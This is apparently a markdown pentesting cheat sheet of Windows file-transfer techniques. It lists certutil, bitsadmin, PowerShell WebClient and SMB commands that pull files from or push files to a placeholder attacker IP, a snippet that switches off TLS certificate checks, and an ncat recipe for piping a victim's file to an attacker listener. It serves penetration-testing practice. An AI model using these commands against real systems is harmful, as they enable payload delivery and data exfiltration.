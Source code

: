 
For a collection of methods on hosting, reference my [Hosting as the Attacker](./Hosting%20as%20the%20Attacker.md) note.
### Downloading via built-in Windows Utilities
---

```powershell
# Built in Certutil Utility
certutil -urlcache -f http://<ip_addr>/<filename> <outfile>

# Built in bitsadmin Utility
bitsadmin /TRANSFER <job_name> http://<ip_addr>/<filename> "$PWD/<outfile>"

# Native PowerShell Command
Invoke-WebRequest http://<ip_addr>/<filename> -UseBasicParsing -OutFile <outfile>
```

### Downloading and Uploading via PowerShell
---

```powershell
### PowerShell 2.0+ WebClient
# Download File from Web Server
(New-Object System.Net.WebClient).DownloadFile("http(s)://<ip_addr>/<filename>","<outfile>")

# Upload File top Web Server
(New-Object System.Net.WebClient).UploadFile("http(s)://<ip_addr>/<filename>","<outfile>")


### PowerShell 5.0+ WebClient
# Download Filr from Web Server
[System.Net.WebClient]::new().DownloadFile("http(s)://<ip_addr>/<filename>","<outfile>")

# Upload File to Web Server
[System.Net.WebClient]::new().UploadFile("http(s)://<ip_addr>/<filename>","<file_path>")


### Advanced: PoorMansArmory HTTPS File Transfer Support
# Bypass the WebClient self-signed certificate check within the current session
$Bypass = @'
using System;
using System.Net;
using System.Net.Security;
using System.Security.Cryptography.X509Certificates;
public class SelfSignedCerts
{
    public static void Bypass()
    {
        ServicePointManager.ServerCertificateValidationCallback =
            delegate
            (
                Object obj,
                X509Certificate certificate,
                X509Chain chain,
                SslPolicyErrors errors
            )
            {
                return true;
            };
    }
}
'@
Add-Type $Bypass;
[SelfSignedCerts]::Bypass();
```

### Downloading and Uploading via SMB
---

```powershell
# Download File from Share
copy \\<ip_addr>\<share_name>\<filename> <outfile>

# Upload File to Share
copy <filename> \\<ip_addr>\<share_name>\<filename>
```

### Alternative Methods
---

```powershell
### Using ncat.exe
# Attacker: Create Listener waiting for File
nc -nvlp <port> > <outfile>

# Victim: Upload File Bytes
type <filename> | ./nc.exe <ip_addr> <port>
```